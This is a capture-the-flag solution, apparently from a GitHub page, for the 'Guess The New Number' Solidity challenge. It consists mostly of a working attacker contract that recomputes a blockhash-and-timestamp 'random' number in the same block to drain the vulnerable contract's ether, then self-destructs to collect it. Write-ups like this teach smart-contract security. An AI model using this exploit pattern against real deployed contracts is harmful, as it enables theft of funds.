 # Guess The New Number

**HINT:** Create a contract to guess the number at the same time it is generated by the challenge contract. 
<details>
<summary>Answer</summary>
<p>

This will do the exact same computations and then submits. Because both contracts reside in the same block, your guess will always end up right.
```
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
    
contract NumSolver {
    function() public payable {
    }

    function win(address addr) public payable {
        GuessTheNewNumberChallenge target = GuessTheNewNumberChallenge(addr);
        target.guess.value(msg.value)(uint8(keccak256(block.blockhash(block.number - 1),now)));
    }

    function destroy() public {
        selfdestruct(msg.sender);
    }
}
```


</p>
</details>